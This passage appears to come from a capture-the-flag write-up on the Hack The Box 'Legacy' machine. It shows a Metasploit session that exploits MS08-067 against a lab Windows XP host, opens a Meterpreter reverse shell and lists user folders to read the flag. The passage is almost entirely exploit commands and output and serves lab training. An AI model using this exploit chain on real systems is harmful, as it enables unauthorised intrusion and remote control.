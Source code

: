 ```
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set rhosts 10.129.109.83
rhosts => 10.129.109.83
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> set lhost tun0
lhost => 10.10.14.93
[msf](Jobs:0 Agents:0) exploit(windows/smb/ms08_067_netapi) >> run

[*] Started reverse TCP handler on 10.10.14.93:4444 
[*] 10.129.109.83:445 - Automatically detecting the target...
[*] 10.129.109.83:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.129.109.83:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.129.109.83:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.129.109.83
[*] Meterpreter session 1 opened (10.10.14.93:4444 -> 10.129.109.83:1041) at 2023-09-22 20:58:54 +0200

(Meterpreter 1)(C:\WINDOWS\system32) > shell
Process 1524 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>echo %username%
echo %username%
LEGACY$

C:\WINDOWS\system32>cd "C:\Documents and Settings\"
cd "C:\Documents and Settings\"

C:\Documents and Settings>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings

16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
16/03/2017  09:07 ��    <DIR>          Administrator
16/03/2017  08:29 ��    <DIR>          All Users
16/03/2017  08:33 ��    <DIR>          john
               0 File(s)              0 bytes
               5 Dir(s)   6.296.023.040 bytes free

C:\Documents and Settings>type john\Desktop\user.txt
type john\Desktop\user.txt
e[...SNIP...]f
```
We can see that we are logged with the user `LEGACY$` and this user has the right to read the flag file located in the `john` folder. Let's look if it has the rights to read the content of the Administrator folder:
```
C:\Documents and Settings>cd Administrator
cd Administrator

C:\Documents and Settings\Administrator>dir
dir
 Volume in drive C has no label.
 Volume Serial Number is 54BF-723B

 Directory of C:\Documents and Settings\Administrator

16/03/2017  09:07 ��    <DIR>          .
16/03/2017  09:07 ��    <DIR>          ..
```